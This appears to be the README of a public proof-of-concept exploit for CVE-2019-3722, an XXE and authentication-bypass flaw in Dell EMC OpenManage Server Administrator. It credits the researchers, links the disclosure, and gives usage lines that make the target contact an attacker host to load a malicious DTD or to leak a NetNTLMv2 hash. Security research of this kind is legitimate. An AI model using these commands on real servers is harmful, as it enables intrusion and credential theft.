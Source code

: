# CVE-2019-3722: Dell EMC OpenManage Server Administrator (OMSA) XXE

## Information
**Description:** This is just a python port of the exploit found here: https://www.exploit-db.com/exploits/39909.  
**Versions Affected:** confirmed on 8.3 and 7.3  
**Researcher:** Original research: hantwister exploit ported by: @daveysec 
**Disclosure Link:** https://www.exploit-db.com/exploits/39909  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2019-3722  

## Proof-of-Concept Exploit
### Description
This abuses the way OMSA handles authentication to bypass authentication and forces the server to make a request which is vulnerable to XXE in the response sent by the attacker.  

### Usage/Exploitation
Your attacking host must be reachable on port 443 from the target.
`CVE-2019-3722.py <yourip> <target:port> <path for XXE>`  

Example:  
`CVE-2019-3722.py 192.168.0.1 192.168.0.2:1311 http://192.168.0.1:8080/xxe.dtd`

Or use it to intercept a NetNTLMv2 hash:  
`CVE-2019-3722.py 192.168.0.1 192.168.0.2:1311 file://\\192.168.0.1`  
